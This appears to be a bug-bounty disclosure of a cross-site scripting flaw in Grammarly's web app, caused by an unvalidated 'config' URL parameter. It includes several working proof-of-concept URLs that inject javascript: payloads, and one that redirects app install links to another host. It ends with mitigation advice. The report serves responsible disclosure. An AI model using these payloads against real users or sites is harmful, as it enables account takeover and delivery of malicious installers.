 The following PoC will work for both upgraded accounts and free users. Free users will get the payload triggered when they try upgrading to Premium from the editor:

{F1165875}

And paying users will get the payload trigger when clicking "Subscription" in the menu:

{F1165877}

```
https://app.grammarly.com/docs/new?config={%22account%22:{%22subscription%22:%22javascript:alert(document.domain)//%22},%22api%22:{%22redirect%22:%22javascript:alert(document.domain)//%22}}
```

Since the config is persistent during the session, going to the main page as a free user and clicking the upgrade to premium will also get it triggered, but you can link to the start page also with the config (this won't hide the payload however):

```
https://app.grammarly.com/?config={%22api%22:{%22redirect%22:%22javascript:alert(document.domain)//%22}}
```

{F1165878}

You can also modify the `crossPlatformOfficeAddin.infoURL` since it's also not a part of the schema:

```
https://app.grammarly.com/?config={%22crossPlatformOfficeAddin%22:{%22infoURL%22:%22javascript:alert(document.domain)//%22}}
```

{F1165879}

Here's a video showing both scenarios for free and premium:

{F1165872}

### Mitigation

I would first suggest to remove the `config`-parameter feature completely. The risk of adding new properties when using a partial TypeScript schema will just introduce this issue again if the schema is not updated. Another solution would be to change the properties in the schema which are critical into being non-partial, which means it can only contain the parts specified in the TypeScript-schema.

## Impact

The XSS-issue affects all browsers and is not mitigated by any CSP, since you allow `unsafe-inline` and `unsafe-eval`. Any calls can be made as the attacker, since the javascript runs on the proper origin as the code already interacting with your APIs. However, there are more parameters in the config to modify that might change other things as well, not just creating an XSS. For example, `desktop.windows.installURL` and `desktop.mac.installURL` would be very interesting to also modify into proper URLs without any XSS needed, since you would then modify the APP-download for the installation files for the affected user, no XSS needed:

```
https://app.grammarly.com/?config={%22crossPlatformOfficeAddin%22:{%22infoURL%22:%22https://example.com%22},%22officeAddin%22:{%22installURL%22:%22https://example.com%22},%22desktop%22:{%22windows%22:{%22installURL%22:%22https://example.com%22},%22mac%22:{%22installURL%22:%22https://example.com%22}}}
```
